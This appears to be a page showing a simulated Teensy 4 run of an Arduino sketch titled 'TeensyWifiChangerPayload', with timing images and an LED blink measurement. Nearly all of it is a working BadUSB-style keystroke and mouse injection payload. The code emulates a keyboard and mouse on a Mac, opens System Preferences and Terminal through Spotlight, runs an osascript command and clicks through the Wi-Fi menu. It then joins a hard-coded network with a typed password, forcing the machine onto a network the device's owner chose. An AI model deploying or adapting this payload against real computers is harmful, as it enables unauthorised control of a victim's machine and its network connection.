
Simulated run of this sketch. Board: Teensy 4. On the bench: output pins drawn as LEDs (lit = HIGH). Dashed ring = blinking.

Above: at 34.9 s.
Timing chart, 0 to 39.1 s (numbered marks = the images above):


The sketch:

TeensyWifiChanger.ino
```cpp
//TeensyWifiChangerPayload by Dave
//https://github.com/Digipup1
//Credit to samyk for snippets of code used from his usbdriveby project
int led = 13;
int ds = 500;
void setup() {
pinMode(led, OUTPUT);

  delay(1000);
  openapp("System Preferences");
  delay(ds);
  openapp("Terminal");
  cmd(KEY_N);
  typeln("osascript -e 'tell application \"System Events\" to set bounds of window \"System Preferences\" of application \"System Preferences\" to {0, 0, 700, 700}'");
  cmd(KEY_TAB);
  cmd(KEY_F);
  typeln("Wi-Fi");
  k(KEY_ENTER);
  delay(ds);


  #if !defined(CORE_TEENSY)
  Mouse.begin();
  #endif

    // Move to top left of screen
  for (int i = 0; i < 1000; i++)
  {
    Mouse.move(-10, -10);
    delay(1);
  }

  delay(500);

 //moving to network name selection
  Mouse.move(100, 100);
  Mouse.move(100, 28);


  delay(ds);
  Mouse.click();


  Keyboard.press(KEY_DOWN); //moving ALL the way down in case of lots
  //of available networks
  delay(3000);
  Keyboard.releaseAll();
  k(KEY_ENTER);
  typeln("iPhone (5)"); //replace with your network name
  k(KEY_ENTER); //make this a comment if you have network security
  delay(3000);


  typeln("passwordisrightnow"); //uncomment if needed for network
  k(KEY_ENTER); //password

  //exit out of everything
  cmd(KEY_Q);
  cmd(KEY_Q);


}


//voids from samyk
void mod(int mod, int key)
{
  Keyboard.set_modifier(mod);
  Keyboard.send_now();
  Keyboard.set_key1(key);
  Keyboard.send_now();
  delay(ds);

  Keyboard.set_modifier(0);
  Keyboard.set_key1(0);
  Keyboard.send_now();
  delay(ds);
}


void cmd(int key)
{
  mod(MODIFIERKEY_GUI, key);
}


void typeln(String chars)
{
  Keyboard.print(chars);
  delay(ds);
  Keyboard.println("");
  delay(ds * 4);
}

void openapp(String app)
{
  cmd(KEY_SPACE); //Open spotlight
  typeln(app);
}

void k(int key)
{
  Keyboard.set_key1(key);
  Keyboard.send_now();
  delay(ds/2);

  Keyboard.set_key1(0);
  Keyboard.send_now();
  delay(ds/2);
}


void loop(){

  //blink when finished
  digitalWrite(led, HIGH);  //Blink when done
  delay(1000);
  digitalWrite(led, LOW);
  delay(1000);
  digitalWrite(led, HIGH);
  delay(1000);
  digitalWrite(led, LOW);
  delay(1000);
    }
```

Measured:
- by itself, pin 13 (led): alternates HIGH for 1.0 s and LOW for 1.0 s
